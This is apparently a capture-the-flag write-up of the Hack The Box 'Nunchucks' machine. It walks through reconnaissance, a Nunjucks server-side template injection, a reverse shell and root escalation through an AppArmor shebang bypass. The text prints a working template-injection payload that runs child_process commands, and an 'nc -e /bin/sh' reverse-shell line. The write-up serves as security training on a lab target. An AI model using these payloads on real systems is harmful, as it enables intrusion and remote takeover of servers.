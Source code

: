 # Nunchucks

**Date**: 04/07/2022

**Difficulty**: Easy

**CTF**: [https://app.hackthebox.com/machines/Nunchucks](https://app.hackthebox.com/machines/Nunchucks)

---

Let’s test the connection with the target machine:

<figure><img src="../../.gitbook/assets/nunchucks0.png" alt=""><figcaption></figcaption></figure>

We have received back the ping, so we have connection. Let’s scan the TCP ports of the target machine using nmap:

<figure><img src="../../.gitbook/assets/nunchucks1.png" alt=""><figcaption></figcaption></figure>

3 open ports: 22 (ssh), 80 (http), 443 (https). Let’s scan them further:

<figure><img src="../../.gitbook/assets/nunchucks2.png" alt=""><figcaption></figcaption></figure>

Apparently the website hosted in the port 80, redirects us to [https://nunchucks.htb/](https://nunchucks.htb/). Also, the ssl certificate and the DNS of the https service also reveals the domain name, so it seems like is applying virtual hosting. Let’s add this domain to the /etc/hosts file:

<figure><img src="../../.gitbook/assets/nunchucks3.png" alt=""><figcaption></figcaption></figure>

Let’s inspect the website using whatweb:

<figure><img src="../../.gitbook/assets/nunchucks4.png" alt=""><figcaption></figcaption></figure>

At least now it resolves. Let’s see how it looks using the web browser:

<figure><img src="../../.gitbook/assets/nunchucks5.png" alt=""><figcaption></figcaption></figure>

Seems like a normal page… Let’s click on the upper left Nunchucks image:

<figure><img src="../../.gitbook/assets/nunchucks6.png" alt=""><figcaption></figcaption></figure>

It opens a index.html page that says that the page doesnt exist. Weird.

<figure><img src="../../.gitbook/assets/nunchucks7.png" alt=""><figcaption></figcaption></figure>

We also have a signup form

<figure><img src="../../.gitbook/assets/nunchucks8.png" alt=""><figcaption></figcaption></figure>

and a login form

<figure><img src="../../.gitbook/assets/nunchucks9.png" alt=""><figcaption></figcaption></figure>

Also, the website is setting a cookie called `_csrf` nice name, this kind of cookies are usually used to prevent CSRF attacks.

Let’s start testing the login form agains sqli:

<figure><img src="../../.gitbook/assets/nunchucks10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/nunchucks11.png" alt=""><figcaption></figcaption></figure>

Uh… user logins are disabled. Let’s try then to sign up:

<figure><img src="../../.gitbook/assets/nunchucks12.png" alt=""><figcaption></figcaption></figure>

Ooookay… so no login and no signup.

Anyway the form is sending the information. Maybe if we have a valid cookie the system will allow us to log in?

<figure><img src="../../.gitbook/assets/nunchucks13.png" alt=""><figcaption></figcaption></figure>

Let’s take a look to the website again:

<figure><img src="../../.gitbook/assets/nunchucks14.png" alt=""><figcaption></figcaption></figure>

There is a support email in the footer of the website. Let’s note it, maybe it will be useful…

Let’s enumerate the directories of the website:

<figure><img src="../../.gitbook/assets/nunchucks15.png" alt=""><figcaption></figcaption></figure>

Maybe we can look for subdomains:

<figure><img src="../../.gitbook/assets/nunchucks16.png" alt=""><figcaption></figcaption></figure>

wfuzz discovered the `store` subdomain, let’s add it to the /etc/hosts file

<figure><img src="../../.gitbook/assets/nunchucks17.png" alt=""><figcaption></figcaption></figure>

And now let’s visit the subdomain:

<figure><img src="../../.gitbook/assets/nunchucks18.png" alt=""><figcaption></figcaption></figure>

There is nothing else here but a form… Let’s use it:

<figure><img src="../../.gitbook/assets/nunchucks19.png" alt=""><figcaption></figcaption></figure>

Mmmm… it includes the mail that I entered in the webpage. Maybe this page is vulnerable to SSTI? Let’s check it:

<figure><img src="../../.gitbook/assets/nunchucks20.png" alt=""><figcaption></figcaption></figure>

Yep, it is. 

<figure><img src="../../.gitbook/assets/nunchucks21.png" alt=""><figcaption></figcaption></figure>

NUNJUCKS sound pretty similar to Nunchucks, let’s start with this:

`{{range.constructor("return global.process.mainModule.require('child_process').execSync('COMMAND_WE_WANT_TO_EXECUTE')")()}}`

but adding backslashes to escape double quotes and using burpsuite to bypass the email format check:

<figure><img src="../../.gitbook/assets/nunchucks22.png" alt=""><figcaption></figcaption></figure>

Let’s try to see the passwd file:

<figure><img src="../../.gitbook/assets/nunchucks23.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/nunchucks24.png" alt=""><figcaption></figcaption></figure>

Let’s look inside the home folder of david, we may find ssh credentials or something useful:

<figure><img src="../../.gitbook/assets/nunchucks25.png" alt=""><figcaption></figcaption></figure>

Ok, there is no .ssh folder, but we can see the user.txt flag:

<figure><img src="../../.gitbook/assets/nunchucks26.png" alt=""><figcaption></figcaption></figure>

Ok, we managed to get the user flag, but we have to access to the target machine. Let’s find a way to establish a reverse shell… 

<figure><img src="../../.gitbook/assets/nunchucks27.png" alt=""><figcaption></figcaption></figure>

ok, the target machine has netcat installed, let’s try a simple `nc -e /bin/sh 10.10.10.10 1234`

<figure><img src="../../.gitbook/assets/nunchucks28.png" alt=""><figcaption></figcaption></figure>

Bad Gateway… something doesn’t work… what if we encode the command in base64 and send it this way?

<figure><img src="../../.gitbook/assets/nunchucks29.png" alt=""><figcaption></figcaption></figure>

It worked, nice. Let’s stabilize the tty:

<figure><img src="../../.gitbook/assets/nunchucks30.png" alt=""><figcaption></figcaption></figure>

Ok, now let’s find a way to escalate privileges. Let’s start looking for SUID files:

<figure><img src="../../.gitbook/assets/nunchucks31.png" alt=""><figcaption></figcaption></figure>

Nothing useful. Let’s see if there is any binary with capabilities:

<figure><img src="../../.gitbook/assets/nunchucks32.png" alt=""><figcaption></figcaption></figure>

Uh, perl has a `setsuid` capability… And it appears in GTFO Bins as something we can take advance of to escalate to root:

<figure><img src="../../.gitbook/assets/nunchucks33.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/nunchucks34.png" alt=""><figcaption></figcaption></figure>

I tried it. I tried a lot of things but nothing happened:

<figure><img src="../../.gitbook/assets/nunchucks35.png" alt=""><figcaption></figcaption></figure>

Apparently I had to discover this:

<figure><img src="../../.gitbook/assets/nunchucks36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/nunchucks37.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/nunchucks38.png" alt=""><figcaption></figcaption></figure>

What is inside /opt/backup.pl?

<figure><img src="../../.gitbook/assets/nunchucks39.png" alt=""><figcaption></figcaption></figure>

Is a perl script. Let’s execute it:

<figure><img src="../../.gitbook/assets/nunchucks40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/nunchucks41.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/nunchucks42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/nunchucks43.png" alt=""><figcaption></figcaption></figure>

Nothing useful there. Let’s investigate a little bit more about AppArmor:

Looking for bugs and vulns I found this one: 

[Bug #1911431 "Unable to prevent execution of shebang lines" : Bugs : AppArmor](https://bugs.launchpad.net/apparmor/+bug/1911431)

<figure><img src="../../.gitbook/assets/nunchucks44.png" alt=""><figcaption></figcaption></figure>

it says that if we create a script with the shebang of the restricted application, it will ignore the restrictions. Let’s try it!

<figure><img src="../../.gitbook/assets/nunchucks45.png" alt=""><figcaption></figcaption></figure>

And now, let’s execute it:

<figure><img src="../../.gitbook/assets/nunchucks46.png" alt=""><figcaption></figcaption></figure>

And that’s how we became root. Pretty interesting.